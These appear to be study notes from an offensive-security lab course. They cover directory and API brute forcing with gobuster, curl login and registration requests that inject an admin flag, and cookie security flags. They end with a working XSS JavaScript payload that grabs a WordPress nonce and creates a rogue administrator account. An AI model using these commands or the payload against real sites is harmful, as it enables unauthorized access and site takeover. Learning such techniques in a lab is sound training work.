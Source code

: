 ```
gobuster dir -u 192.168.50.20 -w /usr/share/wordlists/dirb/common.txt -t 5
```

Note: don't forget about `robots.txt` and debugging page content when looking for clues!

## Api Brute Force
-p use a pattern file

```
echo {GOBUSTER}/v1 > pattern;
echo {GOBUSTER}/v2 >> pattern;
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

-i flag for curl shows response headers
```
curl -i http://192.168.50.16:5002/users/v1
```

login with curl
-d = data
```
curl -d '{"password":"fake","username":"admin"}' -H 'Content-Type: application/json'  http://192.168.50.16:5002/users/v1/login
```

can sometimes inject `admin: True` keys into request params
```
curl -d '{"password":"lab","username":"offsec","email":"pwn@offsec.com","admin":"True"}' -H 'Content-Type: application/json' http://192.168.50.16:5002/users/v1/register
```

## Cross Site Scripting (XSS)
stored XSS -> inject exploit payload into db or cache
reflected -> malicious request link
### Cookies
Secure -> only send cookie over encrypted connection
HttpOnly -> deny JS access to cookies

JS code to grab nonce and create new admin user

```
var ajaxRequest = new XMLHttpRequest();
var requestURL = "/wp-admin/user-new.php";
var nonceRegex = /ser" value="([^"]*?)"/g;
ajaxRequest.open("GET", requestURL, false);
ajaxRequest.send();
var nonceMatch = nonceRegex.exec(ajaxRequest.responseText);
var nonce = nonceMatch[1];

var params = "action=createuser&_wpnonce_create-user="+nonce+"&user_login=attacker&email=attacker@offsec.com&pass1=attackerpass&pass2=attackerpass&role=administrator";
ajaxRequest = new XMLHttpRequest();
ajaxRequest.open("POST", requestURL, true);
ajaxRequest.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
ajaxRequest.send(params);
```
